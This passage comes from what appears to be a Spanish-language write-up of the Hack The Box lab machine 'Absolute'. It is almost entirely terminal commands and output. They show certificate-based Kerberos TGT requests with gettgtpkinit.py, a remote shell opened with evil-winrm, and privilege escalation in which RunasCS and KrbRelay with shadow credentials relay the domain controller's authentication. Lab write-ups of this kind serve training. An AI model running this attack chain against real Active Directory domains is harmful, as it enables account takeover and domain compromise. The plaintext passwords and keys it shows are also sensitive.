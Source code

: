 ```shell
❯ sudo python3 gettgtpkinit.py absolute.htb/winrm_user -cert-pfx ../sEHe3twE.pfx -pfx-pass yYY7CyVyJeBXdRvbWyIG winrm_user.ccache
2023-03-02 00:37:47,379 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-03-02 00:37:47,393 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-03-02 00:38:44,940 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-03-02 00:38:44,940 minikerberos INFO     c147047fe12e34627390ecd8f2152f5ac3ea65fda83f53e6b1b409e518087abd
INFO:minikerberos:c147047fe12e34627390ecd8f2152f5ac3ea65fda83f53e6b1b409e518087abd
2023-03-02 00:38:44,943 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
```shell
[libdefaults]
        default_realm = ABSOLUTE.HTB

[realms]
        ABSOLUTE.HTB = {
                kdc = DC.ABSOLUTE.HTB
                admin_server = ABSOLUTE.HTB
        }
```

```shell
❯ evil-winrm -i DC.ABSOLUTE.HTB -r ABSOLUTE.HTB

Evil-WinRM shell v3.4

*Evil-WinRM* PS C:\Users\winrm_user\Documents> whoami
absolute\winrm_user
```
Para elevar nuestro privilegio primero enumeramos un poco la máquina.

```powershell
*Evil-WinRM* PS C:\Users\winrm_user\Documents> .\RunasCS.exe mlovegod AbsoluteLDAP2022! -d absolute.htb -l 9 "C:\Users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid {752073A1-23F2-4396
-85F0-8FDB879ED0ED} -shadowcred"
[*] Relaying context: absolute.htb\DC$
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\Users\winrm_user\Documents\KrbRelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAADQ/31yI6y+UbaH1PermYnwAkAAANAM//8qzBCcv5l4QiIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing SYSTEM authentication
[*] Using CLSID: 752073a1-23f2-4396-85f0-8fdb879ed0ed
[*] apReq: 608206b406092a864886f71201020201006e8206a33082069fa003020105a10302010ea20703050020000000a38204e1618204dd308204d9a003020105a10e1b0c4142534f4c5554452e485442a2223020a003020102a11930171b046c6461701b0f64632e6162736f6c7574652e687462a382049c30820498a003020112a103020104a282048a04820486bfd91ef9cd23cf2f9f69de436633fafacd848793252ee1b54616bdcf7bfeb2608efbbe0d390ac0c8d4daf843a96c47e772cd9c39ae9a99cc699c87be9f12f89a2f14c36bd5035c1f9832117643ef40558eac4
```

